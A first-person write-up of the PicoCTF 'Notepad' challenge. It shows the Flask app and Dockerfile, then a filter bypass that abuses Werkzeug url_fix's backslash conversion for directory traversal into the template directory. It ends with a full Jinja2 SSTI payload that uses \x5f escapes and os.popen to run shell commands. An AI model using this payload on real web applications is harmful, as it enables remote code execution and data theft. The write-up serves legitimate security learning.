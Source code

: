 This is my first ever writeup so bare with me haha.

Notepad is a hard level PicoCTF challenge. It's relatively small at least code wise containing an app.py file that is just 22 lines of python, and here they are:

```
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    print(content)
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```


Before anything I want to know where the flag will be stored on the docker container, heres the Dockerfile:

```
# Dockerfile (fixed & pinned for lab testing)
FROM python:3.9.2-slim-buster

# Ensure deterministic output from python processes in containers
ENV PYTHONUNBUFFERED=1

WORKDIR /app

# Install specific (older) versions intentionally:
# - Flask 2.0.3 (compatible with Werkzeug 2.0.x)
# - Werkzeug 2.0.3 (contains url_fix)
# - pin gunicorn to a modern-but-known version
RUN pip install --no-cache-dir "Flask==2.0.3" "werkzeug==2.0.3" "gunicorn==20.1.0"

# Copy app + assets
COPY app.py flag.txt ./
COPY templates templates

# Make sure required dirs exist, set permissions, and rename the flag file to a random name
RUN mkdir -p /app/static /app/templates/errors && \
    chmod -R 775 /app && \
    chmod 1773 /app/static /app/templates/errors && \
    # only rename if flag.txt exists
    if [ -f flag.txt ]; then mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt; fi

# Expose a port (optional, but useful)
EXPOSE 8000

# Fix gunicorn CLI flags: use --user and --group properly and bind to port 8000
CMD ["gunicorn", "-w", "16", "-t", "5", "--graceful-timeout", "0", "--user", "nobody", "--group", "nogroup", "-b", "0.0.0.0:8000", "app:app"]

```

As you can see from 'COPY app.py flag.txt ./' the flag will just be a file in the root directory. From this I assumed this may be an LFI challenge or RCE.


Now, Diving into te code it has some interesting behaviour. The code is made to save notes into a directory static as a .html file, it also saves the file as the first 128 characters of the note along with 8 random characters in the end.
Immediately I attempted a directory traversal as the name of the file is being generated and then passed onto pythons open() function, which takes a filename that can include ../ ... interesting.

Now theres an issue, two characters are filtered out from the notes, that being forward slash '/' and underscores '_'. The underscores will make sense later.
I wanted to see if I could find a way around the filtering and so I looked up the url_fix function from werkzeug. Heres the function:

```
from werkzeug.urls import url_fix

def url_fix_source(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
    it contains unsafe characters like ' ' and so on. This function can fix
    some of the problems in a similar way browsers handle data entered by the
    user:

    >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
    'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

    :param s: the string with the URL to fix.
    :param charset: The target charset for the URL if the url was given as
                    unicode string.
    """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))

```

Something really interesting here is that url_fix converts backslashes to forwardslashes... :)

This was a clear way to bypass the forwardslash filter. 
Now, submitting a note with content '..\test' will write files to the apps main directory. I tested this in a docker file and it worked.
Something I shouldve mentioned earlier is that the app can accept error templates when the notepad exceeds 512 characters of contains bad characters.
The templates are stored in the templates directory within the apps main directory. 
Templates are passed straing into python, interestingly they can execute python code inside curly braces. At this point I was sure this was a SSTI (Server Side Template Injection).
Using the previous directory traversal vulnerability, I am able to place files in the templates/errors directory, which is exactly where python pulls errors from.
Now, to execute the SSTI vulnerability I had to supply 128 random characters to not mess up the name (not entirely sure if this was required but it's more stable).
Here was my original note I submitted as a test:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{ print ('ello?')}}

after submitting this note, the server placed a file with the name 'expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx-TYTVPd8HE3I.html' in the errors directory.
I could then access this file by passing an error parameter with the name of that file to the front page as so:

![](images/Screenshot_20251001_014830.png)

Now, I need to be able to execute system commands, I could just read files but thats boring. Using the regular SSTI oneliner does not work because of the previously mentioned underscore '_' filtering, so we have to get creative.
Using pythons 'attr' function. The only issue is we cant get by with just attr, this is because certain objects have underscores no matter what way you access it. For this we can use the byte representation of underscores in python: \x5f. 
Now, we can get to the __builtins__ object in python which houses __getitem__ which from there you can get to my beloved import function and import os.popen. With this, we have SSTI :D. Heres the full payload:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

for simplicity the SSTI payload is:
request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()

Now you can easily find a payload just like this online or an alternative but doing it myself is more fun and you learn more.
Anyways, after submitting this payload, you can just access it and run system commands, I switch out 'ls' to 'cat /flag.txt' and you can read the flag as so:

![](images/Screenshot_20251001_014747.png)

You could also run any command you'd like of course.







